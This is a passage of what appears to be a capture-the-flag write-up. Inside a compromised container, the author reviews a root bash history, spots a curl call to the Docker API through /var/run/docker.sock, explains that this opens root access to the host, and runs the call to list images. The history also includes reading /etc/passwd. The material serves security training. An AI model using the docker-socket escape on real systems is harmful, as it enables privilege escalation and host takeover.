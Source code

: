     
    
    root@2d24bf61767c:~# cat .bash_history 
    paswd
    passwd
    passwd
    passswd
    passwd
    passwd
    cd /root
    ls
    ls -la
    rm .wget-hsts 
    cd .ssh/
    ls
    cd ..
    printf '- Add saltstack support to auto-spawn sandbox dockers.\n- Integrate changes to tomcat and make the service open to public.' > todo.txt
    cat todo.txt 
    printf -- '- Add saltstack support to auto-spawn sandbox dockers.\n- Integrate changes to tomcat and make the service open to public.' > todo.txt
    cat todo.txt 
    printf -- '- Add saltstack support to auto-spawn sandbox dockers.\n- Integrate changes to tomcat and make the service open to public.\' > todo.txt
    printf -- '- Add saltstack support to auto-spawn sandbox dockers.\n- Integrate changes to tomcat and make the service open to public.\n' > todo.txt
    printf -- '- Add saltstack support to auto-spawn sandbox dockers.\n- Integrate changes to tomcat and make the service open to public.\' > todo.txt
    printf -- '- Add saltstack support to auto-spawn sandbox dockers.\n- Integrate changes to tomcat and make the service open to public.\n' > todo.txt
    cat todo.txt 
    printf -- '- Add saltstack support to auto-spawn sandbox dockers through events.\n- Integrate changes to tomcat and make the service open to public.\n' > todo.txt
    cd /home/tomcat
    cat /etc/passwd
    exit
    cd /root/
    ls
    cat todo.txt 
    ls -la /var/run/
    curl -s --unix-socket /var/run/docker.sock http://localhost/images/json
    exit
    

The interesting line is the last thing run. That `curl` is hitting the [Docker
API](https://docs.docker.com/engine/api/v1.30/). If I can interact with the
API from here, it is basically like being in the `docker` group, which means I
can get file system access as root to the docker host, which typically leads
to a shell.

I’ll run the command from the history, and it works:

    
    
    root@2d24bf61767c:~# curl -s --unix-socket /var/run/docker.sock http://localhost/images/json
    [{"Containers":-1,"Created":1590787186,"Id":"sha256:a24bb4013296f61e89ba57005a7b3e52274d8edd3ae2077d04395f806b63d83e","Labels":null,"ParentId":"","RepoDigests":null,"RepoTags":["sandbox:latest"],"SharedSize":-1,"Size":5574537,"VirtualSize":5574537},{"Containers":-1,"Created":1588544489,"Id":"sha256:188a2704d8b01d4591334d8b5ed86892f56bfe1c68bee828edc2998fb015b9e9","Labels":null,"ParentId":"","RepoDigests":["<none>@<none>"],"RepoTags":["<none>:<none>"],"SharedSize":-1,"Size":1056679100,"VirtualSize":1056679100}]
    